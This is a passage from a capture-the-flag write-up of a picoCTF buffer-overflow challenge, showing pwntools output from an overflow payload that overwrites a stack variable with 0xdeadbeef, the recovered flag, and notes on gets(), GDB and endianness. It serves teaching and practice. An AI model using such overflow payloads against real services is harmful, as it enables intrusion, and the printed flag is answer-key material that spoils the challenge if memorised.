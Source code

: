 The exploit successfully overwrites the `code` variable, triggering the flag output mechanism with the complete program output:

```
[+] Opening connection to mars.picoctf.net on port 31890: Done
______________________________________________________________________
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde\x00\x00\x00\x00'
[*] Switching to interactive mode
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Flag:

```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Concepts learnt:

- Precise buffer overflow exploitation techniques
- Stack frame analysis using GDB debugging
- Memory distance calculations for targeted overwrites
- Little-endian byte order considerations
- `pwntools` library utilization for exploit development

## Notes:

- The `gets()` function's lack of input length validation enables exploitation
- Understanding stack frame structure is essential for precise memory manipulation
- GDB debugging provides crucial insights into memory layouts
- Python's `pwntools` significantly streamlines exploit development
- Endianness awareness is critical when writing specific values to memory

## Resources:

https://www.youtube.com/watch?v=T03idxny9jE&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN&index=14
https://ctf101.org/binary-exploitation/
